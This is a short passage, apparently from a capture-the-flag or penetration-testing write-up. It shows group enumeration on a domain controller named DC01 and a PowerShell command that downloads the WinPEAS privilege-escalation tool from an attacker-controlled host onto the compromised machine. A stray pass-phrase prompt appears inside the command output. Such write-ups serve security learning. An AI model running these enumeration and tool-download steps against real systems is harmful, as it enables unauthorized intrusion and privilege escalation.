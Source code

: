 ```windows
net localgroup

Enter PEM pass phrase:

Aliases for \\DC01

-------------------------------------------------------------------------------
*Access Control Assistance Operators
*Account Operators
*Administrators
*Allowed RODC Password Replication Group
*Backup Operators
*Cert Publishers
*Certificate Service DCOM Access
*Cryptographic Operators
*Denied RODC Password Replication Group
*Distributed COM Users
*DnsAdmins
*Event Log Readers
*Guests
*Hyper-V Administrators
*IIS_IUSRS
*Incoming Forest Trust Builders
*Network Configuration Operators
*Performance Log Users
*Performance Monitor Users
*Pre-Windows 2000 Compatible Access
*Print Operators
*RAS and IAS Servers
*RDS Endpoint Servers
*RDS Management Servers
*RDS Remote Access Servers
*Remote Desktop Users
*Remote Management Users
*Replicator
*Server Operators
*Storage Replica Administrators
*Terminal Server License Servers
*Users
*Windows Authorization Access Group
The command completed successfully.

```

## Winpeas
[Upload x64 version onto machine](https://adamtheautomator.com/powershell-download-file/)

```windows
Invoke-WebRequest -Uri 'http://10.10.14.7:8001/winPEASx64.exe' -OutFile 'C:\Users\legacyy\Documents\winPEAS.exe'
```
# Output
- PowerShell Command History:
